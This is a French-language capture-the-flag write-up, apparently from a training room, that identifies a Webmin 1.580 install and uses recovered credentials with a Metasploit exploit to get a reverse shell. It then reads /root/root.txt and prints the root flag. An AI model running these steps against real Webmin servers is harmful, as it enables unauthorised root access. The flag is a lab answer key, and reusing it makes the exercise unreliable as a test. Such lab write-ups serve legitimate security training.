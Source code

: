 ```

Le nom du CMS est affiché :
**webmin**

## What is the CMS version?

Se connecter avec les creds trouvés 
Username : agent47
Password : videogamer124

La version est affiché parmis les informations : 

**Webmin version 	1.580**

# Task 6 : Privilage Escalation with Metasploit

## What is the root flag?

Ouvrir metasploit 
``` 
msfconsole 

search Webmin 1.580 
```

Comme il n'y a que 2 exploits dont 1 vérifié, on va prendre celui la : 

``` use 0 ```

On va modifier les options : 

``` 
set password videogamer124 
set username agent47
set LHOST localhost
set ssl false 
show payloads 
set payload 5 
set lhost tun0

```
Lancer la commande, et une session sera ouverte (Attention, le shell est pourri donc on ne voit pas qu'il est lancé) 

Se rendre sur le dossier /root et ouvrir le fichier root.txt

``` 
cat /root/root.txt

a4b945830144bdd71908d12d902adeee
```
**a4b945830144bdd71908d12d902adeee**
  










